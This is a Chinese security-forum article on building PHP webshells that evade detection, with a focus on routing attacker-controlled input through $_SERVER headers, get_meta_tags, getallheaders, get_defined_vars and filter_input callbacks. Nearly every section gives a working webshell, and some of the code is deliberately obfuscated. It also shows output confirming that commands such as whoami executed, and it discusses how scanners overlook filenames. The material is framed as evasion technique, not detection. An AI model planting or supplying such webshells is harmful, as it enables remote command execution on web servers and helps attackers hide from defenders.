





# webshell免杀之浅谈phpwebshell中如何控制传入内容-先知社区

> **来源**: https://xz.aliyun.com/news/17470  
> **文章ID**: 17470

---

# webshell免杀之浅谈phpwebshell中如何控制传入内容

## 前言

对webshell的研究还是有一个星期了，来总结一下我们应该如何控制外来的参数内容

毕竟webshell需要任意命令执行的话，不得不实现任意参数的传入，下面是我自己总结的一些方法，重点是研究如何出传入参数，所给出的webshell的重点也是在如何传入参数

## 必须知道的基础

有些常见的，比如

1. $\_GET:

* 用于收集通过 URL 查询字符串传递的数据。它是一个关联数组，包含了 URL 中的所有查询参数。
* 例如，访问 example.com/page.php?name=John&age=25，则 $\_GET['name'] 为 John，$\_GET['age'] 为 25。

1. $\_POST:

* 用于收集通过 HTTP POST 方法发送的数据。通常用于表单提交。
* 例如，表单中有一个字段 username，提交后可以通过 $\_POST['username'] 获取其值。

1. $\_COOKIE:

* 用于访问客户端存储的 cookie 数据。它是一个关联数组，包含了所有可用的 cookie。
* 例如，若设置了一个 cookie user，可以通过 $\_COOKIE['user'] 获取其值。

1. $\_REQUEST:

* 包含了 $\_GET、$\_POST 和 $\_COOKIE 中的数据。它是一个合并的数组，允许访问所有请求数据。
* 例如，若同时通过 GET 和 POST 发送了相同的参数，$\_REQUEST['param'] 将返回 POST 中的值。

1. $\_SERVER:

* 包含了关于服务器和执行环境的信息。它是一个关联数组，提供了许多服务器变量，如请求方法、用户代理等。
* 例如，$\_SERVER['REQUEST\_METHOD'] 可以获取请求方法（GET、POST等），$\_SERVER['HTTP\_USER\_AGENT'] 可以获取用户的浏览器信息。

1. $\_FILES:

* 用于处理通过 HTTP POST 上传的文件。它是一个关联数组，包含了上传文件的信息，如文件名、类型、大小等。
* 例如，若表单中有一个文件上传字段 file，可以通过 $\_FILES['file'] 获取文件的相关信息。

1. $GLOBALS:

* 是一个超级全局数组，用于访问全局作用域中的变量。它包含了所有全局变量的名称和值。
* 例如，若在函数中定义了一个全局变量 $var，可以通过 $GLOBALS['var'] 访问它。

这里强调一下$\_SERVER

因为它内部还包含了许多的可以传入参数的点

```
PATH    系统环境变量的值，包含了多个目录的路径，用于指定可执行文件的搜索路径。
SYSTEMROOT Windows系统根目录的路径。
COMSPEC       默认命令行解释器的路径。
PATHEXT         可执行文件扩展名的列表。
WINDIR         Windows系统目录的路径。
PHPRC          PHP配置文件（php.ini）所在的目录。
SCRIPT_NAME    当前脚本的文件名。
REQUEST_URI    请求的URI。
QUERY_STRING   请求的查询字符串部分。
REQUEST_METHOD 请求的HTTP方法。
SERVER_PROTOCOL    服务器使用的HTTP协议版本。
REMOTE_PORT    客户端的端口号。
SCRIPT_FILENAME    当前脚本的绝对文件路径。
SERVER_ADMIN   服务器管理员的电子邮件地址。
CONTEXT_DOCUMENT_ROOT  当前环境下的文档根目录。
CONTEXT_PREFIX 当前环境的URL路径前缀。
REQUEST_SCHEME 请求使用的协议。
DOCUMENT_ROOT  当前脚本的文档根目录。
REMOTE_ADDR    客户端的IP地址。
SERVER_PORT    服务器监听的端口号。
SERVER_ADDR    服务器的IP地址。
SERVER_NAME    服务器的主机名。
SERVER_SOFTWARE    服务器软件和版本信息。
SERVER_SIGNATURE   服务器签名字符串。
HTTP_COOKIE    请求中的Cookie信息。
HTTP_ACCEPT_LANGUAGE   请求中的客户端语言偏好。
HTTP_ACCEPT_ENCODING   请求中的客户端编码偏好。
HTTP_SEC_FETCH_DEST    请求中的Fetch请求目标。
HTTP_SEC_FETCH_USER    请求中的Fetch请求用户状态。
HTTP_SEC_FETCH_MODE    请求中的Fetch请求模式。
HTTP_SEC_FETCH_SITE    请求中的Fetch请求站点。
HTTP_ACCEPT    请求中的Accept头字段。
HTTP_USER_AGENT    请求中的用户代理（浏览器）信息。
HTTP_UPGRADE_INSECURE_REQUESTS 请求中的安全升级请求。
HTTP_SEC_CH_UA_PLATFORM    请求中的用户代理平台。
HTTP_SEC_CH_UA_MOBILE  请求中的用户代理移动状态。
HTTP_SEC_CH_UA 请求中的用户代理信息。
HTTP_CACHE_CONTROL 请求中的缓存控制头字段。
HTTP_CONNECTION    请求中的连接类型。
HTTP_HOST  请求中的主机名
```

比如这里随便拿一个例子来举HTTP\_ACCEPT

比如我前段时间构造的一个webshell

```
<?php

$records = array(
    array(
        'id' => "array",
        'first_name' => '_',
        'last_name' => 'sy',
    ),
    array(
        'id' => "_",
        'first_name' => 'SER',
        'last_name' => 's',
    ),
    array(
        'id' => "ma",
        'first_name' => 'VE',
        'last_name' => 't',
    ),
    array(
        'id' => "p",
        'first_name' => 'R',
        'last_name' => 'em',
    )
);

$last_names = array_column($records, 'last_name');
$first_names = array_column($records, 'first_name');
$a="123123123123123";
parse_str($a=implode('',(array_column($records, 'id'))), $aarryy);
$string1 = implode('', $last_names);
$string2 = implode('', $first_names);
$array=array();
array_push($array,$string1,$string2);
if(1===$_GET[1]){
    $c=123;
}else{
    $c=$$string1['HTTP_ACCEPT'];
}
if(intval($_GET[1])>1){
    $f=array("nhao"=>$c);
    extract($f);
}
array_push($array,$nhao);
if("a"===$a($array[0],array($array[rand(0,2)]))){
    echo 1;
}
```

就是通过

`$$string1['HTTP\_ACCEPT']也就是

```
$a=$_SERVER["HTTP_ACCEPT"];
```

来传入参数的

## get\_meta\_tags

### 分析

get\_meta\_tags — 从一个文件中提取所有的 meta 标签 content 属性，返回一个数组

官方的例子

```
<meta name="author" content="name">
<meta name="keywords" content="php documentation">
<meta name="DESCRIPTION" content="a php manual">
<meta name="geo.position" content="49.33;-86.59">
</head> <!-- 解析工作在此处停止 -->
```

```
<?php
// 假设上边的标签是在 www.example.com 中
$tags = get_meta_tags('http://www.example.com/');

// 注意所有的键（key）均为小写，而键中的‘.’则转换成了‘_’。
echo $tags['author'];       // name
echo $tags['keywords'];     // php documentation
echo $tags['description'];  // a php manual
echo $tags['geo_position']; // 49.33;-86.59
?>
```

我们基于这个思路该如何构造一个简单的webshell呢？

首先可控点我们需要抓住，就是外部的文件，其中标签我们也可以控制，那岂不是就可以值了

### webshell例子

1.html内容如下

```
<meta name="author" content="system">
<meta name="keywords" content="whoami">
<meta name="DESCRIPTION" content="a php manual">
<meta name="geo.position" content="49.33;-86.59">
```

webshell

```
<?php
echo  get_meta_tags('1.html')['author'](get_meta_tags('1.html')['keywords']);
?>
```



成功执行

## getallheaders()

### 分析

getallheaders — 获取全部 HTTP 请求头信息

官方的例子

```
<?php

foreach (getallheaders() as $name => $value) {
    echo "$name: $value
";
}

?>
```

效果



可以发现是把全部的header都取出来了

如果用这个构造webshell，那我们只需要控制header就可以了

### webshell的例子

```
<?php
foreach (getallheaders() as $name => $value) {
    $name($value);
}
?>
```

就是获取header的key和value，然后按照动态命令执行去组装



返回内容如下

```
ljl\86135
Fatal error: Uncaught Error: Call to undefined function Cookie() in D:\phpstudy_pro\WWW\phpms\1.php:3 Stack trace: #0 {main} thrown in D:\phpstudy_pro\WWW\phpms\1.php on line 3
```

可以发现是执行了命令

## get\_defined\_vars

### 分析

get\_defined\_vars — 返回由所有已定义变量所组成的数组

```
<?php
var_dump(get_defined_vars());
?>
```

返回值



比如其中有些值我就可以拿来使用

其中有一个这样的内容

C:\Program Files\
odejs;C:\WINDOWS\system32

system就有了

参数如何控制？

["SCRIPT\_NAME"]=> string(6) "/1.php" ["REQUEST\_URI"]=> string(6) "/1.php

我们可以选择控制文件名对吧

而且获取的有\_SERVER，其实很多就可以控制了

### webshell例子

我在本地是

```
<?php
var_dump(substr(get_defined_vars()['_SERVER']['ComSpec'],11,6));
var_dump(substr(get_defined_vars()['_SERVER']['SCRIPT_NAME'],26,6));
?>
```

输出

```
D:\phpstudy_pro\WWW\phpms\whoami.php:2:
string(6) "system"
D:\phpstudy_pro\WWW\phpms\whoami.php:3:
string(6) "whoami"
```

然后只需要组装就好了

### 注意

不过在webshell检测中一般会忽略文件名，当然我们还可以通过查询string去访问，反正办法很多

## filter\_input

### 分析

filter\_input — 通过名称获取特定的外部变量，并且可以通过过滤器处理它

官方的例子

```
<?php$search_html = filter_input(INPUT_GET, 'search', FILTER_SANITIZE_SPECIAL_CHARS);$search_url = filter_input(INPUT_GET, 'search', FILTER_SANITIZE_ENCODED);echo "You have searched for $search_html.
";echo "<a href='?search=$search_url'>Search again.</a>";?>
```

以上示例的输出类似于：

```
You have searched for Me &#38; son.
<a href='?search=Me%20%26%20son'>Search again.</a>
```

我们的构造思路其实就来了，input是可以从url获取的

那我们就可以控制传入的值了

看下它的各种参数

```
type
```

INPUT\_GET, INPUT\_POST, INPUT\_COOKIE, \*\*INPUT\_SERVER\*\*或 \*\*INPUT\_ENV\*\*之一。

```
var_name
```

待获取的变量名。

```
filter
```

要应用的过滤器 ID。[过滤器类型](https://www.php.net/manual/zh/filter.filters.php) 手册页面列出了可用的过滤器。

如果省略，将使用 FILTER\_DEFAULT，默认等同于 [``](https://www.php.net/manual/zh/filter.filters.sanitize.php)FILTER\_UNSAFE\_RAW。这将导致不进行任何默认过滤。

```
options
```

一个选项的关联数组，或者按位区分的标示。如果过滤器接受选项，可以通过数组的 "flags" 位去提供这些标示。

通过type就知道传入参数的方法很多了

然后还可以自定义方法，这也是我们的关键

看如下例子

```
<?php

/**
 * Strip whitespace (or other non-printable characters) from the beginning and end of a string
 * @param string $value
 */
function trimString($value)
{
    return trim($value);
}

$loginname = filter_input(INPUT_POST, 'loginname', FILTER_CALLBACK, array('options' => 'trimString'));
```

可以通过FILTER\_CALLBACK设置自定义的处理方法，通过options来选择

### webshell例子

```
<?php
function nn0nkey($a){
    echo system("$a");
}
$res=filter_input(INPUT_GET, 'k1n9', FILTER_CALLBACK,array('options' => 'nn0nkey'));
```


